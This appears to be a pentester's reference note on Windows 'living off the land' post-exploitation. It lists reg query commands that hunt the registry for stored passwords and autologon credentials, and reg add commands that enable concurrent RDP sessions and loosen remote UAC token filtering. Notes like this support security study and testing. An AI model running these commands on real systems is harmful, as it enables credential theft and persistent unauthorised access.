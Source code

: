 # Living off the Land

Search Tag(s): #post-exploitation #enumeration-and-discovery #privilege-escalation #living-off-the-land #windows

```
C:\> reg query [\\<IP>] HKLM /f password /t REG_SZ /s

C:\> reg query [\\<IP>] HKCU /f password /t REG_SZ /s

C:\> reg query [\\<IP>] "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

C:\> reg query [\\<IP>] "HKLM\Software\Microsoft\Windows NT\Currentversion\Winlogon" /v DefaultUserName [/reg:<32 | 64>]

C:\> reg query [\\<IP>] "HKLM\Software\Microsoft\Windows NT\Currentversion\Winlogon" /v LastUsedUsername [/reg:<32 | 64>]
```

---
## References

- [[Autologon|AutoLogin Registry]]

- [Russian Government Cyber Activity Targeting Energy and Other Critical Infrastructure Sectors](https://datasecurity.ucsf.edu/news/russian-government-cyber-activity-targeting-energy-and-other-critical-infrastructure-sectors)

TODO: This is for persistence or idk what kind of mechanism persistence technique that it does so I'll have to put it somewhere else later

`C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v EnableConcurrentSessions /t REG_DWORD /d 1 /f`

`C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AllowMultipleTSSessions /t REG_DWORD /d 1 /f`

`C:\> reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v MaxInstanceCount /t REG_DWORD /d 100 /f`

`C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f`